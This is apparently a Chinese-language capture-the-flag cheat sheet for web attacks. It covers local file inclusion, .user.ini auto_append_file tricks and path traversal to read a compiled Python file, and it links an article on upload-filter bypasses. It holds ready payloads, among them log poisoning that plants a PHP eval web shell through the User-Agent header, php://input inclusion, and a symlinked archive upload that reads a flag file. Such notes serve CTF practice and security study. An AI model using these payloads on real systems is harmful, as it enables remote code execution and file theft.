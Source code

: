 [实战 | 文件上传漏洞之最全代码检测绕过总结](https://mp.weixin.qq.com/s/6ArBgNYpsQH7WkaaJY6GfQ)

# LFI/文件包含

| Name                                                   | payload                                                    |     |
| ------------------------------------------------------ | ---------------------------------------------------------- | --- |
| `?file=index` 或 `?file=index.php` 有可能需要去掉 .php |                                                            |     |
| PHP_INCLUDE_TO_SHELL_CHAR_DICT                         |                                                            |     |
| glob://                                                |                                                            |     |
| 日志包含                                               | 1.抓包修改 Agent 访问 2.包含日志 /var/log/nginx/access.log |
| 使用 [.user.ini](#userini) 进行包含                    | auto_append_file=2.jpg                                     |

## .user.ini

相当于 `include('xx.txt')`

| Desc           | .user.ini                                    | payload                                                                                |
| -------------- | -------------------------------------------- | -------------------------------------------------------------------------------------- |
| 包含 post 数据 | `auto_append_file=php://input`               | url:`index.php` <br>body: `<?php phpinfo();?>`                                         |
| 日志包含       | `auto_append_file=/var/log/nginx/access.log` | url:`index.php` <br> body: `1=phpinfo();`<br>usUser-Agent: `<?php eval($_POST[1]);?> ` |

# Python

```sh
/download?file=../../../app/__pycache__/part.cpython-311.pyc
```

# 文件上传

- 压缩包软链接，传到/tmp/data 下, ，这个软链接指向 flag，即可获取 flag
